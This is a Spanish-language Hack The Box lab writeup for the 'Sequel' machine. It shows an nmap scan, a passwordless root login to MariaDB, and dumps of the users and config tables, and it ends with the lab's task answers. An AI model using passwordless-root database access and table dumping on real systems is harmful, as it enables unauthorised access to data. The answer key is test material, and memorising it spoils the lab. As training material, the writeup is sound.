 ```yaml
---
title: HTB - Starting Point - Tier 1 - Sequel Writeup
date: 2022-08-10 09:10:00 +0800
categories: [HTB, Writeup]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Este post forma parte de la serie **Tier 1** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-10-htb-writeup-tier1-appointment %}).

## Sequel

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220810/img08.png)

Las tags de este box no dan varias pistas de por donde van los tiros.

Copiamos la IP del equipo remoto, en mi caso *10.129.217.57*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ nmap -A 10.129.217.57 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 20:16 CEST
Nmap scan report for 10.129.217.57
Host is up (0.086s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 84
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, ConnectWithDatabase, Support41Auth, FoundRows, InteractiveClient, Speaks41ProtocolOld, ODBCClient, SupportsTransactions, LongColumnFlag, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, IgnoreSigpipes, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: >Rd~p4Pu!>TnMrx&PB;>
|_  Auth Plugin Name: mysql_native_password
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.38 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (aka agresivo) que ejecuta OS detection, version detection, script scanning y traceroute todo del tirón.
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

OK. Tenemos un servicio *mysql* escuchando en el puerto *3306/tcp*, concretamente una *5.5.5-10.3.27-MariaDB-0+deb10u1*

Iniciamos nuestro cliente **mysql** en local, con *root* como usuario y sin contraseña, y nos ponemos a trastear.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ mysql -h 10.129.217.57 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 77
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.041 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.038 sec)

MariaDB [htb]> select * FROM users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.039 sec)

MariaDB [htb]> select * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.038 sec)

MariaDB [htb]>
```

Bingo !

## Respuestas:

* <strong>Task 1</strong>: Structured Query Language
* <strong>Task 2</strong>: 3306
* <strong>Task 3</strong>: MariaDB
* <strong>Task 4</strong>: -u
* <strong>Task 5</strong>: root
* <strong>Task 6</strong>: *
* <strong>Task 7</strong>: ;

